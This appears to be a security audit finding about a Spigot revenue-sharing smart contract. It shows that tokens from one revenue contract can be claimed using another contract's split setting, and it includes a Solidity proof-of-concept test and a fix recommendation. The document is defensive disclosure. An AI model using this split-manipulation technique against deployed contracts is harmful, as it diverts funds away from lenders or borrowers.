 # Revenue tokens coming from a particular contract can be claimed with settings from another contract that would benefit a particular party

When claiming revenue from a contract, an associated setting to the contract's address is used to determine the split (how much is taken as revenue and how much goes to the treasury). The issue here is that revenue tokens associated with a particular revenue contract can be claimed using a different revenue contract, which will end up using a different setting.

## Impact

This may lead to any of the involved parties to act in a malicious way to benefit from claiming revenue using a setting from another contract to maximize their benefit. 

For example, a lender may use a setting where the `ownerSplit` is greater to maximize the tokens that are kept in the Spigot, or similarly, a borrower may use a setting that has the lowest `ownerSplit` value in order to maximize the percentage that goes to their treasury.

Since the function isn't protected, this also leaves the possibility that a griefer can use this to harm the lenders or the borrowers.

## PoC

In the following test, Revenue A has 90% split and Revenue B has 50% split. Revenue A pushes 100 tokens (TokenA) but we use Revenue B to claim, making the treasure have 50 tokens instead of the expected 10.

Note: the context for this test (setup, variables and helper functions) is similar to the one found in the file `Spigot.t.sol`.

```
function test_ClaimRevenue_DifferentSettings() public {
    vm.startPrank(owner);
    
    RevenueToken tokenA = new RevenueToken();
    RevenueToken tokenB = new RevenueToken();
    
    MockRevenueContract revenueA = new MockRevenueContract(owner, tokenA);
    MockRevenueContract revenueB = new MockRevenueContract(owner, tokenB);
            
    spigot = new Spigot(owner, treasury, operator);
    
    // Settings A is 90 split (10% goes to treasury) but settings B is 50 (50% goes to treasury)
    ISpigot.Setting memory settingsA = ISpigot.Setting(90, claimPushPaymentFunc, transferOwnerFunc);
    require(spigot.addSpigot(address(revenueA), settingsA), "Failed to add spigot");
    
    ISpigot.Setting memory settingsB = ISpigot.Setting(50, claimPushPaymentFunc, transferOwnerFunc);
    require(spigot.addSpigot(address(revenueB), settingsB), "Failed to add spigot");
    
    // RevenueA pushes payment to spigot
    tokenA.mint(address(revenueA), 100);
    revenueA.sendPushPayment(address(spigot));
    
    // Use Revenue B to claim token A, this will use settings from B which are better for the borrower
    spigot.claimRevenue(address(revenueB), address(tokenA), hex"");
    
    // Treasury has 50 tokens instead of 10
    uint256 treasuryBalance = tokenA.balanceOf(treasury);
    assertEq(treasuryBalance, 50);
}
```

## Recommendation

Settings for a particular revenue contract should only be applicable on claims (and tokens) associated to that revenue stream, in order to prevent a bad actor from mixing claims from unrelated revenue contracts and tokens.
